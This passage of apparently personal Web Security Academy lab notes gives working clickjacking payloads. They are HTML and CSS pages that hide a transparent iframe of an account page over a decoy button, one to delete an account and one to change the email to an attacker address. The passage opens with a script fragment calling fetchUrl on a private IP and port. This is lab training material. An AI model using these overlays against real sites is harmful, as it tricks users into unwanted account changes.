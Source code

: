 ```html
	}
	))
}

fetchUrl("http://192.168.0.197:8080");
</script>
```

----
----

# Clickjacking

**Basic clickjacking with CSRF token protection**

    click on a decoy website
    exploit server
    CSRF - delete account
```html
<style>
	iframe {
    	position:relative;
    	width: 1200px;
    	height: 992px;
    	opacity: 0.1;
    	z-index: 2;
	}
	div {
    	position:absolute;
    	top: 575px;
    	left: 60px;
    	z-index: 1;
	}
</style>
<div>Test me</div>
<iframe src="https://0a2800ae0392be2e80ef308a008d0012.web-security-academy.net/my-account"></iframe>
```
---

**Clickjacking with form input data prefilled from a URL parameter**

    click on a decoy website
    exploit server
    CSRF - update email
```html
<style>
    iframe {
   	 position:relative;
   	 width: 1200px;
   	 height: 992px;
   	 opacity: 0.0001;
   	 z-index: 2;
    }
    div {
   	 position:absolute;
   	 top: 490px;
   	 left: 80px;
   	 z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a5300f603a5beef80996c4f0085008a.web-security-academy.net/my-account?email=pwned@makk3.com"></iframe>
```